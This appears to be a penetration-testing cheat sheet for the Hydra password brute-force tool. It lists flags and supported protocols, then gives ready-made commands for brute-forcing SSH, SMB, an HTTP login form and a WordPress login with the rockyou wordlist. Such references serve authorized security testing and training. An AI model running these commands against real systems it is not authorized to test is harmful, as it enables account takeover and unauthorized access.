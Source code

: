 # **Basic syntax :**
`hydra [options] <IP> <protocole>`

# **Some flags :**
`-h`  Show help menu

`-l <username>`  Username/login

`-L <wordlist>`  Usernames/login wordlist

`-p <password>`  Password

`-P <wordlist>`  Passwords wordlist

`-s <PORT>`  Specify port

`-f`  Stop bruteforce as soon as username and password are found

`-R`  Restore previous session

`-t <number>`  Number of threads

`-V`  Verbosity


# **Some protocols :**
SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP,
SMB, SMTP, MySQL, etc...

# **Examples :**
`hydra -l admin -P rockyou.txt 192.168.10.10 ssh`
`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh`
`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb`

### Bruteforce HTTP Post form :
`hydra -l username -P rockyou.txt 192.168.10.10 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect"`

### Bruteforce Wordpress :
`hydra -l username -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`




